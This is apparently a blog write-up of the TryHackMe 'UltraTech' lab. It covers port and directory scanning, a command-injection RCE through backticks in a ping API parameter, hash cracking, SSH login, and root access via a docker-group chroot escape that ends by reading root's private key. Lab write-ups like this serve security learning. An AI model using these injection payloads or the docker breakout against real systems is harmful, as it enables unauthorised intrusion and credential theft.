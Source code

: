 ```yaml
---
layout: post
title: "UltraTech — Writeup"
date: 2023-06-06 
categories: [Tryhackme,Linux Machines]
tags: [tryhackme, security, pentest, enumeration, web ultratech1]
link: https://tryhackme.com/room/ultratech1
image: /assets/img/Posts/ut.png
---
```


##
`INTRODUCTION`

UltraTech is a medium level rated room that gives a perspective of security practices. It explores enumeration, subdomain discovery and Privilege escalation. Let's begin.
## `Initial recon - Port scanning`

We start off with an nmap scan to identify open ports and the services thy are running.

```shell
nmap -sC -sV -p- 10.10.105.45 -o nmap.out
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-06 10:01 EAT
Nmap scan report for 10.10.105.45
Host is up (0.15s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2611.45 seconds

```
The scan answers some of the queistions asked

Which software is using the port 8081?
```shell
8081/tcp  open  http    Node.js Express framework
```

Which other non-standard port is used?
```shell
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Which software using this port?
```shell
Apache 
```

The scan answers the above questions. As always, always explore the target.
upon visiting http://10.10.105.45:8081/ we find it uses an api 
```shell
UltraTech API v0.1.3
```
Now it gets interesing.

We have an ftp service on port 21. Let's check that out. Always check the port for any anopnymous login. 
```shell
ftp anonymous@10.10.105.45
Connected to 10.10.105.45.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
```
It didnt go through.
Lets visit port 31331 (http://10.10.105.45:31331/)

![website](/assets/img/Posts/3131.png)



Which GNU/Linux distribution seems to be used?
```shell
Ubuntu
```
The software using the port 8081 is a REST api, how many of its routes are used by the web application?
To answer this we launch burpsuite to capture the traffic.
After intercepting the request we forward the request it terminates after hitting two endpoints.

```shell
http://10.10.134.175:8081/favicon.ico
http://10.10.134.175:8081/
```
The answer it 2 routes.

### `Subdomain discovery`
Start a directory scan using ffuf
```shell
ffuf -u http://10.10.105.45:31331/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
Back to the scan and something is cooking
```shell
    FUZZ: js
    FUZZ: javascript
    FUZZ: server-status
    FUZZ: images
```
The directory, http://10.10.105.45:31331/js has some interesting endpoints.

![website](/assets/img/Posts/dir.png)


### `Vulnerable parameter discovery`
```shell 
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error')
```
This line `const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}` is interesting. We can query the API by altering the request.
We try some commands which looks something like this
```shell
http://10.10.103.195:8081/ping?ip=ls

Output : ping: ls: Temporary failure in name resolution
```
We get an error but towards the right direction
Let's try aother command. We add `` characters to the command
```shell
http://10.10.103.195:8081/ping?ip=`ls`
```

This time we get a file
```shell
ping: utech.db.sqlite: Name or service not known

```
We can execute an rce using the ping command to fetch data.
```shell
http://10.10.103.195:8081/ping?ip=`cat utech.db.sqlite`
```

The output is some hash
Mr00tf357a0c52799563c7c7b76c1e7543a32
Madmin0d0ea5111e3c1def594c1684e3b9be84

Now we crack these hashes to establish if they are credentials.

We will use an online cracking tool https://crackstation.net/ for this task
0d0ea5111e3c1def594c1684e3b9be84 - n100906
0d0ea5111e3c1def594c1684e3b9be84 - mrsheafy

As we recall, there was a port 22 that was running a ssh service. We can checkif this credentials work.

```shell
 ssh r00t@10.10.105.45
r00t@10.10.105.45's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

r00t@ultratech-prod:~$ whoami
r00t

```
We are in!

Have a look around.

```shell
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ ls -la
total 28
drwxr-xr-x 4 r00t r00t 4096 Jun  6 06:17 .
drwxr-xr-x 5 root root 4096 Mar 22  2019 ..
-rw-r--r-- 1 r00t r00t  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 r00t r00t 3771 Apr  4  2018 .bashrc
drwx------ 2 r00t r00t 4096 Jun  6 06:17 .cache
drwx------ 3 r00t r00t 4096 Jun  6 06:17 .gnupg
-rw-r--r-- 1 r00t r00t  807 Apr  4  2018 .profile
r00t@ultratech-prod:~$ sudo -l
[sudo] password for r00t: 
Sorry, user r00t may not run sudo on ultratech-prod.
```

User r00t doesn't have root privileges.
We'll have to change that.

We check the groups that are in the machine

```shell
r00t@ultratech-prod:~$ groups
r00t docker
```
This makes this interesting. We have a docker container here and basically the run with root as the default user. More info here https://juggernaut-sec.com/docker-breakout-lpe/
 We head to gtfobins and find a command that can upgrade the shell.

 ```shell
 docker run -v /:/mnt --rm -it bash chroot /mnt sh
 ```
 `WE ARE ROOT`

 ```shell
 r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# ls
bin   home            lib64       opt   sbin      sys  vmlinuz
boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
dev   initrd.img.old  media       root  srv       usr
etc   lib             mnt         run   swap.img  var
# cd root
```
We can then locate the id_rsa
```shell
ls -la .ssh
total 16
drwx------ 2 root root 4096 Mar 22  2019 .
drwx------ 6 root root 4096 Mar 22  2019 ..
-rw------- 1 root root    0 Mar 19  2019 authorized_keys
-rw------- 1 root root 1675 Mar 22  2019 id_rsa
-rw-r--r-- 1 root root  401 Mar 22  2019 id_rsa.pub
# cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
```
There you have it.
HAPPY LEARNING! ♥

